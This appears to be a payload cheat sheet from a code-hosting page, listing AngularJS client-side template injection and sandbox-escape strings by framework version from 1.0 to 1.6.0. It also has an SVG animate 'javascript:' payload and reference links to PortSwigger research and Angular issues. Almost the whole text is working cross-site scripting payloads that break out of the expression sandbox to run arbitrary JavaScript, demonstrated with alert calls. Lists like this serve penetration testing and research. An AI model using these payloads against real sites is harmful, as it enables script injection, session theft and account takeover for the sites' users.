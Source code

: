 
<a href='https://970-cs-202608506355-default.cs-asia-southeast1-ajrg.cloudshell.dev/mini-browser/home/donreddy1992/test.html'>test</a>
#### 1.3.2 and below 

`{{7*7}}`


'a'.constructor.fromCharCode=[].join;
'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';



{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=""')+''
}}




{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=alert(1)')+''
}}


`{{constructor.constructor('alert(1)')()}}`


{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}



{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}



{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}



{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}



{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}



{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}



{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

    

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}


#### 1.3.3 

As literal object: `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(Evaluated Object Literal)');}}`

As Array: `{{x = [''.constructor.prototype]; x[0].charAt=[].join; $eval('x=alert(Evaluated Array)');}}`

Versions 1.3.0 - 1.5.7:

{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}


Versions 1.2.20 - 1.2.29:

{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}


Version 1.2.19:

{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}


Versions 1.2.6 - 1.2.18:

{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}


Versions 1.2.0 - 1.2.5:

{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}


SVG

<svg>
  <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
    <circle r="400"></circle>
    <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" />
  </a>
</svg>
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}


Angular 1.6.0

<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
{{0[a='constructor'][a]('alert(1)')()}}



http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
https://github.com/angular/angular.js/issues/14939
https://github.com/angular/angular.js/pull/11290
